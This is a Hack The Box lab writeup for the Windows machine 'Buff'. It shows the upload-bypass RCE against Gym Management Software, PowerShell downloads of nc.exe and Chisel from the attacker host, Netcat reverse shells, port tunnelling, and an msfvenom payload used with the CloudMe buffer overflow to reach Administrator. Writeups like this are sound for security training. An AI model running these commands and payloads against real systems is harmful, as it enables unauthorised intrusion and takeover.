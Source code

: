 ```yaml
---
layout: post
title:  "Hack The Box - Buff Writeup"
date:   2020-11-21 06:00:00
image: 
  path: /assets/img/htb/HTB-Academy/Header.png
author: Ryan
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![HTB - Buff](/assets/img/htb/HTB-Buff/Header.png)

Buff is an Easy level Windows machine. The box statistics show us that we will be focusing heavily on existing CVEs, while working on enumeration skills in a somewhat realistic setup.  
![Buff Statistics](/assets/img/htb/HTB-Buff/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the tartget IP with Nmap, we're able to find what ports are open, while fingerprinting the services running and their versions.  
`>> nmap -p7680,8080 -sC -sV -Pn  -oA Extracts/Buff 10.10.10.198`
![Nmap](/assets/img/htb/HTB-Buff/nmap.png)

### Mrb3n's Bro Hut
Navigating to [http://10.10.10.198:8080](http://10.10.10.198:8080) leads us to what appears to be a pretty basic gym website. We can see infomation around their offerings, pricing, and facilities. One piece of information that stands out can be seen on the [Contact](http://10.10.10.198:8080/contact.php) page.  
![Buff Statistics](/assets/img/htb/HTB-Buff/Information_Gathering_GymManagementSoftware.png)

## Foothold
By researching the Gym Management Software version 1.0, we can see there are a wide range of reported vulnerabilities. An [Unauthenticated RCE](https://www.exploit-db.com/exploits/48506) exploit can be found on Exploit-DB, and looks to be promising.

### Script Usage
After downloading the exploit to our machine, we can learn more about its usage with the following command:  
`>> python 48506.py`
![Shell Help](/assets/img/htb/HTB-Buff/Shell_Help.png)

### Running the Script
Passing in our target server, the exploit runs successfully, and we gain shell access.  
`>> python 48506.py http://10.10.10.198:8080/`
![Shell Run](/assets/img/htb/HTB-Buff/Shell_Run.png)

### How it works
Reading through the exploit, it appears that the Gym Management Software is missing user authentication on its file upload at `upload.php`. Combining this with a few tricks to bypass any file upload restrictions, and we're able to achieve a basic web shell.

File Restriction Bypasses:
* **Filename.php.png**: If the server is only checking the last file extension, we're able to successfully pass the check by appending ".png" to the file name.
* **image/png**: By setting the content-type to image/png, we're telling the server that the file is an image, nothing suspicious to see here.
* **Magic Bytes**: In case the server decides to check the content of the file, rather than just the filename and content-type, we're passing it a series of "magic bytes" which act as a file signature. The bytes sent in this case, `\x89\x50\x4e\x47\x0d\x0a\x1a`, represent a PNG file.  
![Shell Code 1](/assets/img/htb/HTB-Buff/Shell_Code_1.png)

## Enumeration
### User Flag
We appear to be running as the user `shaun`. Let's see if we can get the User Flag.  
`>> type C:\Users\shaun\Desktop\user.txt`
![User Flag](/assets/img/htb/HTB-Buff/User_Flag.png)

### Upgrade Shell
Before we get too far into the box, let's upgrade our shell using Netcat. The current shell is very basic and unable to do many of the tasks we may need when enumerating or trying to escalate privileges later.

Set up local server to get nc.exe onto the target box. Make sure that you've got a local copy of nc.exe in whatever directory you're hosting from.    
`>> python -m SimpleHTTPServer`

Downloading Netcat  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/nc64.exe' -OutFile 'nc.exe'"`

Setting up a listener on our local machine  
`>> nc -lvnp 3333`

Starting Netcat from taget box  
`>> .\nc.exe 10.10.14.39 3333 -e cmd.exe`

### Looking Around
Its possible that there are additional users to pivot to, lets check.  
`>> dir C:\Users`  
![User Enum](/assets/img/htb/HTB-Buff/Enum_Users.png)

With no additional users to work with, we can continue looking through shaun's directories  
`>> dir C:\Users\shaun\Downloads`  
![Downloads Enum](/assets/img/htb/HTB-Buff/Enum_Downloads.png)

CloudMe_1112.exe looks interesting. A little research shows it runs on port 8888 by default. Let's see if there's anything listening there.  
`>> netstat -a`  
![Network Enum](/assets/img/htb/HTB-Buff/Enum_Network.png)

By checking the list of processes running, we can see if CloudMe is already running and if it's process is owned by another user (perhaps Admin?).  
`>> tasklist /v`  
![Process Enum](/assets/img/htb/HTB-Buff/Enum_Process.png)

It looks like CloudMe is running as a user other than shaun. This is promising, since Administrator was the only other account we found.

## Privilege Escalation
If the name "Buff" wasn't enough of a hint of what's to come, you may be surprised to find that CloudMe 1.11.2 is vulnerable to a [Buffer Overflow](https://www.exploit-db.com/exploits/48389). It first requires us to get network access to the service running on port 8888. Let's get that set up with a small TCP/UDP Tunneling tool called [Chisel](https://github.com/jpillora/chisel).

### Tunnelling Port 8888
Start Listener on local machine over port 8800  
`>> sudo ./chisel server -p 8800 -reverse`

Download Chisel.exe to target box  
`>> powershell -c "Invoke-WebRequest -Uri '10.10.14.39:8000/chisel.exe' -OutFile 'chisel.exe'"`

Tunnel connection from target box to local machine  
`>> chisel.exe client 10.10.14.39:8800 R:8888:127.0.0.1:8888`

Result:  
![PrivEsc Tunnel](/assets/img/htb/HTB-Buff/PrivEsc_Tunnel.png)

### Generating Payload
The exploit we're using is currently set up to launch calc.exe. By using msfvenom, we can create a custom payload to do anything we want. Because the  
`>> msfvenom -a x86 -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.14.39 4444 -e cmd.exe' -b '\x00\x0A\x0D' -f python -v payload`  
![Payload Generation](/assets/img/htb/HTB-Buff/Payload_Generation.png)

### Execution
With our updated exploit, we'll be able to trigger the buffer overflow and 

Set up another listener on our local machine  
`>> nc -lvnp 4444`

Running completed exploit  
`>> python 48389.py`  
![Root Shell](/assets/img/htb/HTB-Buff/Shell_Root.png)

### Root Flag
With our administrative shell, we're able to retrieve the flag  
`>> type C:\Users\Administrator\Desktop\root.txt`  
![Root Flag](/assets/img/htb/HTB-Buff/Root_Flag.png)

